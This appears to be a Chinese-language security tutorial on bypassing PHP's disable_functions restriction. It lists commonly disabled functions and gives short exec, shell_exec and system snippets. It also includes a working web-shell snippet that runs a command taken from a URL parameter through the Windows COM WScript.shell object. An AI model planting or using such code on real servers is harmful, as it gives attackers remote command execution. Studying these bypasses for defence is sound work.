 # PHP绕过disable_function限制

为了安全,运维人员会禁用PHP的一些“危险”函数,将其写在 `php.ini` 配置文件中,就是我们所说的 `disable_functions` 了。例如：

`passthru,exec,system,chroot,chgrp,chown,shell_exec,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,link等`

将这些危险函数全部禁用，我们可以通过观察函数是否执行查看是否存在可利用的函数。

实验中的 `php.ini` 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

## 1. 常规绕过

`常规绕过：exec,shell_exec,system,passthru,popen,proc_open`
理解为查看 `PHPinfo` 看看哪些没有被写进ini配置文件,绕过限制。

1. exec
    ```php
    <?phpecho exec('whoami');?>
    ```
2. shell_exec
    ```php
    <?phpecho shell_exec('whoami');?>
    ```
3. system
    ```php
    <?phpsystem('whoami');?>
    ```

## 2. 利用系统组件绕过



`window com组件(PHP5.4自带)(高版本扩展要自己添加）`

测试：
```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```
`?a=command`
![](img/10.png)
